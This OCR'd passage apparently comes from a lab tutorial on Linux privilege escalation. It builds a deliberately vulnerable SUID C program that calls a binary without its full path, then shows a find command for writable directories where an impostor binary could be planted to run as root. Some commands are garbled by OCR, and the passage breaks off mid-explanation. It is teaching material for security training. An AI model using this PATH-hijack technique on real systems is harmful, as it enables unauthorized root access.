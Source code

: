 For demo purposes, consider the script below:

```C
#include<unistd.h>
void main()
{setuid(0);
 setgid(0);
 system("thm");
}
```

This script tries to launch a system binary called “thm” but the example can easily be replicated with any binary.

We compile this into an executable and set the SUID bit.

```bash
root@targetsystem:/home/alper/Desktop# gcc path_exp.c -o path -w
root@targetsystem:/home/alper/Desktop# chmod u+s path
root@targetsystem:/home/alper/Desktop# ls -l
total 24
-rwsr-xr-x 1 root root 16792 Jun 17 07:02 path
-rw-rw-r-- 1 alper alper 76 Jun 17 06:53 path_exp.c
root@targetsystem:/home/alper/Desktop#
```

Our user now has access to the “path” script with SUID bit set.

```bash
alper@targetsystem:~/Desktop$ 1s -1
total 24
-rwsr-xr-x 1 root root 16792 Jun 17 07:02 path
-rw-rw-r-- 1 alper alper 76 Jun 17 06:53 path_exp.c
```

Once executed “path” will look for an executable named “thm” inside folders listed under PATH.

If any writable folder is listed under PATH we could create a binary named thm under that directory and have our “path” script run it. As the SUID bit is set, this binary will run with root privilege

A simple search for writable folders can done using the `find / -writable 2>/dev/null` command. The output of this command can be cleaned using a simple cut and sort sequence.

```bash
alperatargetsystem:~/Desktop$ find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u 
dev 
home 
proc 
run 
snap 
sys
tmp
usr 
var
alperatargetsystem:~/Desktop$ |
```

An alternative could be the command below.
